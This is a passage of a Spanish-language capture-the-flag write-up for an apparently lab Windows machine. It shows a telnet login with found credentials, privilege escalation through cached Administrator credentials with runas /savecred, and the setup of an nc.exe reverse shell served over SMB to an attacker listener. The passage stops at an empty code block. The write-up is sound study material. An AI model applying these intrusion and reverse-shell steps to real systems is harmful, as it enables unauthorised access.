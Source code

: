 ## Intrusion
Podemos usar estas credenciales para conectarnos por telnet.
```bash
❯ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>
```
## Escalada de privilegios

Si enumeramos las credenciales que han sido almacenadas en el cache de la maquina podemos ver que el usuario administrator tiene su contraseña en el cache por lo que podemos aprovecharnos de esta para poder ejecuar comandos y escalar privelegios.
```bash
C:\Users\security>cmdkey /list   

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
    

C:\Users\security>
```

En windows viene una herramienta llamada runas atraves de la cual podemos ejecutar comandos como otro usuario siempre y cuando tengamos la contraseña, en este caso como la credencial estan en el cache podemos utilizar el argumento /savecred este argumento se utiliza para indicar que se deben guardar las credenciales proporcionadas durante una ejecución para su uso en el futuro, cuando se ejecuta el comando runas nuevamente en el futuro, el sistema operativo buscará automáticamente las credenciales guardadas en el caché de credenciales, por lo que no es necesario volver a indicarle cual es la contraseña del usuario.

Para ganar accesso a la maquina voy a usar nc.exe, voy a utilizar el que viene con el repositorio de seclists.
```bash
❯ cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
```
Voy a montar un recurso compartido a nivel de red usando smbserver.py
```bash
❯ smbserver.py smb $(pwd) -smb2support
```
Y me voy a poner en escuha por el puerto 443, voy a utilizar rlwrap para poder moverme mas comodo en la consola.
```bash
❯ rlwrap nc -lvnp 443
```
Este es el comando que voy a utilizar, los dos primeros argumentos son la autenticacion y el utilmo argumento es el comando o programar que quiero ejecutar, con este comando le estoy indicando que se conecte a mi recurso compartido a nivel de red y me ejecute el nc.exe con los siguiente argumentos con el -e le indico que quiero enviar una cmd a la ip 10.10.14.8 y el puerto 443.
```bash
```